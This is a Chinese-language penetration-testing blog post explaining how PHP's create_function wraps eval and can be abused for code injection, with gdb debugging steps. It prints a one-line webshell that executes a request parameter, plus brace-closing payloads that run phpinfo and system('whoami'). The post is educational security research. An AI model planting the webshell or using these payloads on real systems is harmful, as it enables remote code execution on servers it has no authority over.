

Title: create_function
Category: Pentest
Date: 2019-1-10
slug: create-function


p神在小密圈提了一个create_function的tips,就照之前的来说一句话:

```
<?php $sl = create_function('', @$_REQUEST['pass']);$sl();?>
```

只需要单独一个create_function就可以执行函数,搜了下发现在很早的时候80sec提过这个问题:<https://www.securityfocus.com/archive/1/496728>

不过说的主要是第二个参数可控的情况下。原理来说很简单,create_function是类似这样的一个函数:

```
function create_function($args, $code) {
  eval("
    function lambda_1 ($args) { $code }
  ");
  return 'lambda_1';
}
```

所以在第二个参数可控的情况下闭合大括号`return 0; } echo 'outside'; //`，就可以执行:

```
eval("
  function lambda_1 () { return 0; } echo 'outside'; // }
");
```

第一个可控的情况下,这样就可以执行phpinfo:

```
create_function('){}phpinfo();//', '');
```

可以放gdb里面直接调试下,在php源代码里面搜索create_function的实现，然后打断点就可以调试出来:

```
gdb --args /opt/php72/bin/php /var/www/pentest/create1.php
break zend_eval_stringl
run
```



图中的`function __lambda_function(){}phpinfo();//){}`会整个当作字符串去做一个eval,所以就可以执行phpinfo了，之前纠结的点是`function __lambda_func(){phpinfo();}//){}`这样才执行，因为看成这个函数去执行phpinfo。搜了下资料才慢慢明白。所以执行命令可以这样:

```
<?php
create_function('){}system("whoami");//', '');
?>
```


```
The PHP interpreter supports eval in which you can evaluate any PHP expression. An interesting eval function is the zend_eval_stringl function that will PHP evaluate a string. So if we want to get the value of a specific variable $foo in a diversion session in RR we can execute print zend_eval_stringl("var_export($foo, true)", ...) in GDB7. To get the stack trace we can call the PHP function debug_backtrace() via zend_eval_stringl. 
```

另外一点，匿名函数在php里面是有名字的:`\0__lambda_1`，最后1是数字，从小到达排列，它的第一个字符是空字符`\0`，因为用户无法在代码中定义这样的函数，其实还是可以的`<?php $my_func = chr(0) . "lambda_1";`，关于匿名函数有名字这个可以在Hitcon 2017 《Baby^H Master PHP 2017》的writeup里面找到。


* <https://github.com/sidkshatriya/dontbug/wiki/How-the-Dontbug-Debugger-works#foot7>
* <https://github.com/CopernicaMarketingSoftware/PHP-CPP/blob/master/zend/script.cpp>
* <https://gywbd.github.io/posts/2016/2/debug-php-source-code.html>
* <http://xdxd.love/2018/04/12/%E4%B8%80%E6%AC%A1php%E5%86%85%E6%A0%B8%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%E7%9A%84%E7%BB%8F%E5%8E%86/> 
* <https://gywbd.github.io/posts/2016/2/vld-opcode.html>
* <http://treelib.com/book-detail-id-15-aid-604.html>